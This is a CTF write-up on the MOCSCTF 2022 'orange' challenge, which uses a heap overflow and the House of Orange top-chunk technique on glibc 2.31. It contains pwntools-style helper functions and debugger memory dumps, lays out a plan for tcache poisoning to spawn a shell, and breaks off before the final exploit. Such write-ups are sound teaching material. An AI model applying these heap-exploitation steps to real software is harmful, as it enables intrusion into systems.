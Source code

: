 # mocsctf2022.mocsctf.com - orange

### Reference source

https://1ce0ear.github.io/2017/11/26/study-house-of-orange/

https://4ngelboy.blogspot.com/2016/10/hitcon-ctf-qual-2016-house-of-orange.html

https://github.com/shellphish/how2heap

https://dystopia.sg/seccon-beginners-2021-freeless/

---

Origin challenge link: https://mocsctf2022.mocsctf.com/challenges

You can also download challenge in my repo: [orange.zip](orange.zip)

There will be 2 files in zip:

- freefree

- libc-2.31.so

Download zip, then extract and use `pwninit` to patch libc to challenge file. And now let's start!

# 1. Find bug

First, we use `file` command to check for basic infomation:

```
$ file freefree
freefree: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=88c0525daecc504cb81ee1e9104e218cfa4ffdc6, for GNU/Linux 3.2.0, not stripped
```

This is a 64-bit file without being stripped. Next, we will use `checksec` to check for all security of challenge file:

```
$ checksec freefree
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Well, it's `PIE enabled`, quite hard for us when we need to debug things. Also `NX enabled` which means we cannot get our shellcode on stack works. 

Finally, let's fire up ghidra and get the main flow of program. There are just 1 interesing function is main() with 4 option `malloc`, `gets` which we input to chunk, `puts` which print out data of that chunk terminated by null-byte and `exit`.

Let's run the program to get it easily. At the menu, we can see things like this:

![menu.png](images/menu.png)

It tells us that we could use a technique called [House of Orange](https://github.com/shellphish/how2heap/blob/master/glibc_2.23/house_of_orange.c). Analizing in ghidra and run in terminal, we know that it can take the variable name from `A` to `Z` by getting its index:

![variable.png](images/variable.png)

So that `X` can be from `A` to `Z`:

![input_var_terminal.png](images/input_var_terminal.png)

This means we can contain and control upto 25 chunk. And one more thing we can notice is that with each chunk, we can write unlimited data to that chunk, hence overwrite the next chunk --> **Heap Overflow**:

![gets_main.png](images/gets_main.png)

And that's all we can find, just 25 chunks with **Heap Overflow** and no free(), let's see the magic right now!

# 2. Brainstorming

If you are not familiar with heap, just read this to know about all kinds of chunk: https://guyinatuxedo.github.io/25-heap/index.html

### Technique

The main thing to remember is that if we malloc(0x1000) but top chunk size is just 0x300, which means that top chunk cannot satisfy the malloc. Hence, that top chunk will be freed and program will malloc 0x1000 byte on the next page of heap.

The other thing is that we can only malloc maximum 0x1000 bytes.

To be clear, we will take this example below. The heap is usually allocated with a top chunk of size 0x21000. So when we malloc a 0x400-byte chunk, the top chunk will split itself and remain `0x21000 - 0x400 = 0x20c00` with the bit `PREV_INUSE` is set:

![Technique_malloc1.png](images/Technique_malloc1.png)

Now we want to malloc maximum 0x1000, so the top chunk size need to be lower than 0x1000 to conduct this technique. Let's assume that we can change the top chunk size by somehow. Because there is a check about the alignment of top chunk so just to make sure that:

```
(top chunk address + top chunk size) % 0x1000 == 0
```

In our example, the size we want to overwrite into is `0xc00`:

![Technique_malloc4.png](images/Technique_malloc4.png)

Address `0x55555555b000` can satisfy the alignment so we will change top chunk size from 0x20c00 to 0xc00 with the `PREV_INUSE` bit is set.

![Technique_malloc2.png](images/Technique_malloc2.png)

So that when we malloc with a large number `malloc(0x1000)`, that top chunk cannot satisfy our malloc. Then that top chunk will be freed without any error:

![Technique_malloc3.png](images/Technique_malloc3.png)

Because top chunk size is 0xc00, which is large. So when top chunk is freed, it goes to unsorted bin. 

So if our top chunk size is small enough, which fit size of tcache, when we use this technique to free the top chunk, it will go to tcache bin. That's sound interesting, right?

- Summary technique:
  1. We can malloc maximum 0x1000 bytes
  2. Malloc chunk larger than top chunk will free that top chunk
  3. Overwriting top chunk size require 2 constraints:
      - The size of top chunk need to be aligned with size of 0x1000</br>
      `(top chunk address + top chunk size) % 0x1000 == 0`
      - The `PREV_INUSE` bit need to be set

### Brainstorming

With the origin House of Orange, it first frees the top chunk, then fake the `_IO_list_all` so that when we malloc again, it will execute `_IO_list_all` with string `/bin/sh`. But that's just for libc <= 2.23 because those libc from >=2.24, the check is changed so faking `_IO_list_all` is not successful anymore.

Because our provided libc is 2.31, we still can free the top chunk. First we make a large top chunk, then free it will give us libc main arena address. Next we will free 2 times with 2 small top chunk. So that those small top chunk can go to tcache bin (libc >=2.28 has tcache enabled).

And then, we abuse the tcache link list by overwriting the forward pointer to whatever we want and we get the shell.

- Summary:
  1. Leak main arena address
  2. Get shell

# 3. Exploit

Before we start our exploitation, I wrote these function to help our exploit more convenient

<details>
<summary>Code snippet</summary>
<p>

```
def malloc(var, num):
  p.sendlineafter(b'> ', '{}=malloc({})'.format(var, num).encode())

def gets(var, data):
  p.sendlineafter(b'> ', 'gets({})'.format(var).encode())
  time.sleep(0.1)
  p.sendline(data)

def puts(var):
  p.sendlineafter(b'> ', 'puts({})'.format(var).encode())
  # Receive data outside
```

</p>
</details>

And now let's start!

### Stage 1: Leak main arena address

At first, we will need a chunk with index `A` with any size so that we can overwrite all the next chunk with just chunk `A`:

```
malloc('A', 0x20-0x10)
```

Why I have to subtract `0x10`? Just to make sure that the chunk we malloc will have the proper size as we want so subtract `0x10` means subtract from the size of metadata of chunk. Now let's see where our chunk `A` is saved on stack after a first malloc:

```
0x00007ffcdc94e420│+0x0000: "A=malloc(32)\n"   ← $rax, $rsp, $rdi
0x00007ffcdc94e428│+0x0008: 0x0000000a29323328 ("(32)\n"?)
0x00007ffcdc94e430│+0x0010: 0x000055b1275242a0  →  0x0000000000000000    # Chunk A
0x00007ffcdc94e438│+0x0018: 0x0000000000000000    # Chunk B
0x00007ffcdc94e440│+0x0020: 0x0000000000000000    # Chunk C
0x00007ffcdc94e448│+0x0028: 0x0000000000000000    # Chunk D
0x00007ffcdc94e450│+0x0030: 0x0000000000000000    # Chunk E
0x00007ffcdc94e458│+0x0038: 0x0000000000000000    # Chunk F
...
```

So it just save our malloc address from chunk `A` to chunk `Z` like that. Now let's check the top chunk size:

```
gef➤  x/20xg 0x000055b1275242a0-0x10
0x55b127524290: 0x0000000000000000  0x0000000000000031    <-- Chunk A
0x55b1275242a0: 0x0000000000000000  0x0000000000000000
0x55b1275242b0: 0x0000000000000000  0x0000000000000000
0x55b1275242c0: 0x0000000000000000  0x0000000000020d41    <-- Top chunk
0x55b1275242d0: 0x0000000000000000  0x0000000000000000
0x55b1275242e0: 0x0000000000000000  0x0000000000000000
0x55b1275242f0: 0x0000000000000000  0x0000000000000000
0x55b127524300: 0x0000000000000000  0x0000000000000000
0x55b127524310: 0x0000000000000000  0x0000000000000000
0x55b127524320: 0x0000000000000000  0x0000000000000000
```

So our top chunk size now is `0x20d41` with the `PREV_INUSE` bit set. If we want to free that top chunk using the above technique (malloc a chunk larger than top chunk), we need to make our top chunk to be smaller because we can only malloc maximum 0x1000, which means we need to malloc around 20 chunks with size 0x1000. That would be long.

So we will change the top chunk size with the **Heap Overflow** bug. Remember that our top chunk is aligned with 0x1000 so we need to calculate the top chunk size first:

```
>>> hex(0x0000000000020d41 % 0x1000)
'0xd41'
```

So overwriting `0xd41` to top chunk size and malloc `0x1000` byte will free our top chunk.

After overwrite top chunk size:

```
gef➤  x/10xg 0x000055bcc84602a0-0x10
0x55bcc8460290: 0x0000000000000000  0x0000000000000021
0x55bcc84602a0: 0x0000000000000000  0x0000000000000000
0x55bcc84602b0: 0x0000000000000000  0x0000000000000d41
0x55bcc84602c0: 0x0000000000000000  0x0000000000000000
0x55bcc84602d0: 0x0000000000000000  0x0000000000000000
```

After malloc(0x1000):

```
```